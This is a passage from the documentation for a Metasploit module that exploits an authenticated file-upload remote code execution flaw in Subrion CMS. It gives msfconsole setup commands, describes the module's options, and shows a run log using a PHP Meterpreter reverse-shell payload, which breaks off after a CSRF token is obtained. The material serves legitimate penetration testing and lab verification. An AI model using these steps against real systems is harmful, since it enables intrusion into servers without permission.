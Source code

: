 Once the configuration is done, navigate to `http://subrion-vuln.com/panel/` and login as an Administrator to confirm successful setup.

## Verification Steps

1. Install and set up Subrion CMS v4.2.1 as described above.
2. Verify that the Admin Panel login page can be accessed at `http://subrion-vuln.com/panel/`.
3. Start `msfconsole`
4. Do: `use exploit/multi/http/subrion_cms_file_upload_rce`
5. Do: `set RHOSTS [SUBRION_SERVER_IP]`
6. Do: `set RPORT [SUBRION_SERVER_PORT]`
7. Do: `set USERNAME [username]`
8. Do: `set PASSWORD [password]`
9. Do: `set LHOST eth0`
10. Do: `exploit`

## Options

### RPORT (Required)

This is the default HTTP port 80 for the Subrion CMS website.

### TARGETURI (Required)

This is the base path of the Subrion CMS's website. Can be changed in case the files are not installed as a VHost,
for example, in `/var/www/html/subrion/*` and not in `/var/www/subrion/*`

### USERNAME (Required)

This is the username for the Subrion CMS admin panel page, required for exploitation.

### PASSWORD (Required)

This is the password for the Subrion CMS admin panel page, also required for exploitation.

## Scenarios

### Subrion CMS v4.1.0 with Docker on Debian 10

* Using PHP payload - default TARGET 0

```
msf6 > use exploit/multi/http/subrion_cms_file_upload_rce 
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.245.138
RHOSTS => 192.168.245.138
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.245.138:8080/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.1.0.
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: 9cedb67d955cadc5fac7dc7ddf32e425
```